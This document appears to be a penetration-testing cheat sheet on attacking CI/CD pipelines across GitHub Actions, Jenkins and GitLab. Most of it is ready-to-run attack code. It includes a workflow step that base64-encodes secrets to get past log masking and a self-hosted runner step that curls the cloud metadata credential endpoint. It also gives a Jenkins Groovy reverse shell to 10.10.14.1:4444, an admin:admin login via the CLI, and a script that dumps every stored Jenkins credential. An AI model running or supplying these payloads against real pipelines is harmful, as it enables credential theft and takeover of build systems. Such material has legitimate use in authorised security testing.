



#codereview #cicd #github-actions #jenkins #supply-chain

# CI/CD Pipeline Attacks

Related: [git-secrets](git-secrets.md) · [supply-chain](supply-chain.md) · [aws](../Cloud/aws.md)

## Contents
- [GitHub Actions — Secrets Exfiltration via Logs](#github-actions--secrets-exfiltration-via-logs)
- [pull_request_target Misuse](#pull_request_target-misuse)
- [Self-Hosted Runner Abuse](#self-hosted-runner-abuse)
- [Reading Other Workflows' Artifacts / Cache Poisoning](#reading-other-workflows-artifacts--cache-poisoning)
- [Jenkins — Script Console RCE](#jenkins--script-console-rce)
- [Jenkins — Default / Weak Credentials](#jenkins--default--weak-credentials)
- [Extracting Credentials Stored in Jenkins](#extracting-credentials-stored-in-jenkins)
- [GitLab CI — Protected Variable Bypass](#gitlab-ci--protected-variable-bypass)

## GitHub Actions — Secrets Exfiltration via Logs
```yaml
- name: dump
  run: echo "${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```
> [!NOTE]
> GitHub masks a secret string in logs only as an exact match — base64/reverse/substring it and the mask misses it, so it prints in plaintext in the job log. Applies in a PR you can get merged/run, or in a workflow you can trigger.

## pull_request_target Misuse
```yaml
on: pull_request_target
jobs:
  build:
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - run: npm install && npm test
```
> [!WARNING]
> `pull_request_target` runs with the **base** repo's secrets/token but this config checks out the **fork's** (attacker-controlled) code — a malicious `package.json`/test script in the PR runs with privileged access. The safe pattern never checks out untrusted `head.sha` under `pull_request_target`.

## Self-Hosted Runner Abuse
```yaml
on: pull_request
jobs:
  build:
    runs-on: self-hosted
    steps:
      - run: whoami; cat /etc/passwd; curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
> [!CAUTION]
> A public repo with a self-hosted runner lets anyone who opens a PR run code on that runner's host — pivot into the CI network, steal its cloud instance-role credentials (see [aws](../Cloud/aws.md)), or persist on the runner itself for future builds.

## Reading Other Workflows' Artifacts / Cache Poisoning
```yaml
- uses: actions/cache@v4
  with:
    path: node_modules
    key: deps-${{ hashFiles('package-lock.json') }}
```
If you can get a write to the cache (e.g. via a PR from a branch that shares the cache key), a later privileged workflow run restoring that cache executes your poisoned `node_modules`/build artifacts.



## Jenkins — Script Console RCE
```groovy
def proc = "id".execute()
println "${proc.text}"
```
```groovy
def proc = ["bash","-c","bash -i >& /dev/tcp/10.10.14.1/4444 0>&1"].execute()
```
> [!WARNING]
> If you can reach `/script` (default creds, or anonymous read/write misconfigured), Jenkins' Groovy script console is full RCE as the Jenkins service account — paste either snippet and run.

## Jenkins — Default / Weak Credentials
```bash
curl -s http://target:8080/ | grep -i jenkins
```
Jenkins instances are frequently deployed with `admin:admin` or no auth at all on `/script` even when the main UI requires login — check both.

```bash
java -jar jenkins-cli.jar -s http://target:8080/ -auth admin:admin groovy = < payload.groovy
```
Jenkins CLI alternative to the web console for running Groovy if credentials are known.

## Extracting Credentials Stored in Jenkins
```groovy
import jenkins.model.*
import com.cloudbees.plugins.credentials.*
for (c in CredentialsProvider.lookupCredentials(com.cloudbees.plugins.credentials.common.StandardUsernameCredentials.class, Jenkins.instance, null, null)) {
  println(c.username + ":" + c.password)
}
```
Run via the script console — Jenkins' credential store holds plaintext-recoverable secrets (SCM tokens, deploy keys, cloud creds) that build jobs use.



## GitLab CI — Protected Variable Bypass
```yaml
test_job:
  rules:
    - if: '$CI_COMMIT_REF_PROTECTED == "false"'
  script:
    - env | grep -i token
```
> [!NOTE]
> Masked/protected CI/CD variables are only withheld on unprotected branches/tags — if you can push to or create a new unprotected branch and trigger a pipeline there, protected variables simply aren't injected (fails safe) but masked ones on an otherwise-accessible pipeline can still leak the same way as GitHub's log-masking bypass above.


